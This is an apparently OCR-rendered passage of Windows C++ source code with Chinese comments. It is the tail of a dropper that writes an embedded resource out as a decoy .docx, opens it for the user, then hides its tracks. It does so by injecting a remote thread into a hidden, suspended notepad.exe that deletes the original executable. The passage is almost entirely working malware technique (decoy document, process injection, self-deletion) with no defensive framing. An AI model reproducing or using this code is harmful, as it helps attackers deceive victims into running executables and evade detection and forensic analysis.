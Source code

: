 ```cpp
            FileName[i + 3] = 'c';
            FileName[i + 4] = 'x';
            break;
        }
    }
    //循环找文件名中的.，找到后将文件名的后缀改为docx
    //这个步骤主要是为了方便，以后只需要改exe的名称不需要到代码中来改
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    //创建文件名相同的文件
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    // 把资源文件中的内容写入

    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
    //打开docx文件

    //下面是实现自删除，网上的自删除方法有很多，用的多的是批处理，这里是创建一个进程然后用远程线程注入来让notepad删除当前程序
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION  pi = { 0 };
    CreateProcessA("c:\\windows\\system32\\notepad.exe", 0, 0, 0, TRUE, CREATE_NO_WINDOW | CREATE_SUSPENDED, 0, 0, &si, &pi);
    //创建进程
    DeleteStruct DS;
    DS.dwDeleteFile = GetProcAddress(GetModuleHandleA("kernel32.dll"), "DeleteFileA");
    GetModuleFileNameA(NULL, DS.dwDeleteFile_param_1, MAX_PATH);
    //创建远程线程不能直接使用API，需要把函数指针放在结构中传过去
    //这里需要DeleteFileA这个函数，用GetProcAddress得到指针后传过去

    LPVOID ADDRESS = VirtualAllocEx(pi.hProcess, 0, 2048, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, ADDRESS, &threadProc, 2048, 0);
    //为函数开辟一块内存

    LPVOID pRemoteParam = VirtualAllocEx(pi.hProcess, 0, sizeof(DS), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, pRemoteParam, &DS, sizeof(DS), 0);
    DWORD RETSIZE;
    //为参数开辟一块内存
    HANDLE Thread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)ADDRESS, pRemoteParam, 0, &RETSIZE);
    //执行该线程
    CloseHandle(Thread);
    //关闭句柄

}
```

---
